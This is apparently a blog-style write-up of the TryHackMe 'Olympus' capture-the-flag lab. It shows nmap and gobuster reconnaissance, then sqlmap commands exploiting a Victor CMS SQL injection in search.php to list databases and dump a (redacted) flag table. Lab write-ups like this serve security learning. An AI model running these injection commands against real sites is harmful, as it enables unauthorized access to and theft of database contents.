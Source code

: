 ```yaml
---
title: "TryHackMe: Olympus"
author: cilgin
date: 2025-06-29 19:51:50 +0300
categories: [CyberSecurity]
tags: [CTF, TryHackMe, Medium]
pin: true
math: false
mermaid: false
image:
  path: /assets/img/2025-06-29-TryHackMe-Olympus/main.png
---
```


Hi

---

```bash
export IP=10.10.85.12
```

typical nmap scan

```bash
❯ nmap -A -p- $IP
Starting Nmap 7.97 ( https://nmap.org ) at 2025-06-29 20:08 +0300
Nmap scan report for olympus.thm (10.10.85.12)
Host is up (0.066s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:d5:56:cd:de:f2:25:02:3f:ac:8f:1f:13:93:87:da (RSA)
|   256 8e:79:67:bf:ba:b3:01:9a:47:00:ca:c1:28:8c:79:7a (ECDSA)
|_  256 a1:ae:62:c2:24:94:4d:d3:b6:c8:30:87:76:a6:10:fe (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Olympus
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 611.24 seconds
```

In browster I go to the website and redirected to olympus.thm
Add the ip address to the /etc/hosts

![Desktop View](/assets/img/2025-06-29-TryHackMe-Olympus/photo1.png){: width="972" height="589" }

We can see that site is under development. And saying old version of this site is under this domain.
So we can fuzz all the subdomains for this domain.

Fuzzing time using `gobuster`

I fuzzed all the subdomains using gobuster but found nothing so after that i tried fuzzing directories.

```bash
❯ gobuster dir -w common.txt -u http://olympus.thm/ -x md,js,html,php,py,css,txt -t 50
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://olympus.thm/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              py,css,txt,md,js,html,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 1948]
/index.php            (Status: 200) [Size: 1948]
/javascript           (Status: 301) [Size: 315] [--> http://olympus.thm/javascript/]
/phpmyadmin           (Status: 403) [Size: 276]
/server-status        (Status: 403) [Size: 276]
/static               (Status: 301) [Size: 311] [--> http://olympus.thm/static/]
/~webmaster           (Status: 301) [Size: 315] [--> http://olympus.thm/~webmaster/]

===============================================================
Finished
===============================================================
```

We can see that there is a phpmyadmin is existed.
Maybe we can later try to get into that.

And finded ~webmaster which contains the old site.

After that I fuzzde the old site:

```bash
❯ gobuster dir -w common.txt -u http://olympus.thm/~webmaster/ -x md,js,html,php,py,css,txt -t 50
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://olympus.thm/~webmaster/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              py,css,txt,md,js,html,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/LICENSE              (Status: 200) [Size: 1070]
/README.md            (Status: 200) [Size: 2146]
/admin                (Status: 301) [Size: 321] [--> http://olympus.thm/~webmaster/admin/]
/category.php         (Status: 200) [Size: 6650]
/css                  (Status: 301) [Size: 319] [--> http://olympus.thm/~webmaster/css/]
/fonts                (Status: 301) [Size: 321] [--> http://olympus.thm/~webmaster/fonts/]
/img                  (Status: 301) [Size: 319] [--> http://olympus.thm/~webmaster/img/]
/includes             (Status: 301) [Size: 324] [--> http://olympus.thm/~webmaster/includes/]
/index.php            (Status: 200) [Size: 9386]
/index.php            (Status: 200) [Size: 9386]
/js                   (Status: 301) [Size: 318] [--> http://olympus.thm/~webmaster/js/]
/search.php           (Status: 200) [Size: 6621]
Progress: 37912 / 37912 (100.00%)
===============================================================
Finished
===============================================================
```

There is admin panel maybe i can fuzz that.

Also there is search.php maybe i can use that file to make sql injection.



```bash
❯ gobuster dir -w common.txt -u http://olympus.thm/~webmaster/admin/ -x md,js,html,php,py,css,txt -t 50  
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://olympus.thm/~webmaster/admin/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,md,js,html,php,py,css
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/categories.php       (Status: 302) [Size: 9799] [--> ../index.php]
/comment.php          (Status: 302) [Size: 7778] [--> ../index.php]
/css                  (Status: 301) [Size: 325] [--> http://olympus.thm/~webmaster/admin/css/]
/fonts                (Status: 301) [Size: 327] [--> http://olympus.thm/~webmaster/admin/fonts/]
/function.php         (Status: 200) [Size: 0]
/img                  (Status: 301) [Size: 325] [--> http://olympus.thm/~webmaster/admin/img/]
/includes             (Status: 301) [Size: 330] [--> http://olympus.thm/~webmaster/admin/includes/]
/index.php            (Status: 302) [Size: 11408] [--> ../index.php]
/index.php            (Status: 302) [Size: 11408] [--> ../index.php]
/js                   (Status: 301) [Size: 324] [--> http://olympus.thm/~webmaster/admin/js/]
/posts.php            (Status: 302) [Size: 9684] [--> ../index.php]
/profile.php          (Status: 302) [Size: 7410] [--> ../index.php]
/users.php            (Status: 302) [Size: 9070] [--> ../index.php]
Progress: 37912 / 37912 (100.00%)
===============================================================
Finished
===============================================================
```

We can see that a lot of the paths redirecs to the normal site.
But there is function.php which is empty and some paths which includes libraries for code.
We can go to the js libraries.


![Desktop View](/assets/img/2025-06-29-TryHackMe-Olympus/photo2.png){: width="972" height="589" }


As you can this site uses jquerry 1.9.1 and some plugins. Maybe we can check that if the plugins or this jqurry version have vulns.

And this jquerry version have CVE-2019-11358 but I don't think it is usable beacuse it is client side.

So turn back to the sql injection part:

Maybe before that we need to google some victor Cms vulns.


And I found one.
<https://www.exploit-db.com/exploits/48734>

We can use this command:
```bash
sqlmap -u "http://example.com/CMSsite/search.php" --data="search=1337*&submit=" --dbs --random-agent -v 3
```


```bash
❯ sqlmap -u 'http://olympus.thm/~webmaster/search.php?id=1' --data="search=1337*&submit=" --dbs --random-agent -v 3 -D olympus --tables
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.9.4#stable}
|_ -| . [,]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

available databases [6]:
[*] information_schema
[*] mysql
[*] olympus
[*] performance_schema
[*] phpmyadmin
[*] sys
Database: olympus
[6 tables]
+------------+
| categories |
| chats      |
| comments   |
| flag       |
| posts      |
| users      |
+------------+
```

And than we can get the flag

```bash
❯ sqlmap -u 'http://olympus.thm/~webmaster/search.php?id=1' --data="search=1337*&submit=" --dbs --random-agent -v 3 -D olympus -T flag --columns --dump
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.9.4#stable}
|_ -| . [,]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[*] information_schema
[*] mysql
[*] olympus
[*] performance_schema
[*] phpmyadmin
[*] sys

Database: olympus
Table: flag
[1 column]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| flag   | varchar(255) |
+--------+--------------+
+---------------------------+
| flag                      |
+---------------------------+
| flag{*******************} |
+---------------------------+

[*] ending @ 21:23:00 /2025-06-29/
```
